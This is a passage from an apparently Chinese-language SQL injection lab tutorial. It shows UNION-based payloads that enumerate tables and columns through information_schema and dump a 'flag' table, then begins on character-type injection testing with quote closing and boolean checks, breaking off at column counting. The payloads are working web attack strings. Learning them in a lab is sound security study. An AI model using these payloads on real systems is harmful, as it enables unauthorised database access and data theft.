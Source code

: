 -1 union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 1,1)

![image-20220608164004072](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608164004072.png)

得到数据库表名：news

（2）方法二：一次性获取当前数据库所有表名

-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'

![image-20220608164123631](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608164123631.png)

得到数据库sqli中的表名为news和flag

**7.获取表中的字段名**

-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'

![image-20220608164513337](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608164513337.png)

**8.获取数据**

-1 union select 1,group_concat(flag) from sqli.flag

![image-20220608164745900](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608164745900.png)



### **字符型注入

**1.判断是否存在注入**

需要让语句闭合，正常执行，在url结尾输入%23 或者--+，正常闭合，%23为#，注释后面的语句,一定要注意“ ' ”英文输入下，否则容易爆错


去测试是否有sql漏洞

![image-20220609083944558](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083944558.png)

![image-20220609084037093](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609084037093.png)

![image-20220609084958491](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609084958491.png)

发现1’ 报错
和 1 and 1=1,回显
而1 and 1=2,没有回显
得出结论，执行了逻辑语句and ,所以有sql漏洞

**2.输入1，回显**

注入类型是否为字符型注入，在输入id=1的时候发现输出结果为id=’1’，判断类型为字符

![image-20220609083749657](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083749657.png)

**3.猜解SQL查询语句中的字段数**
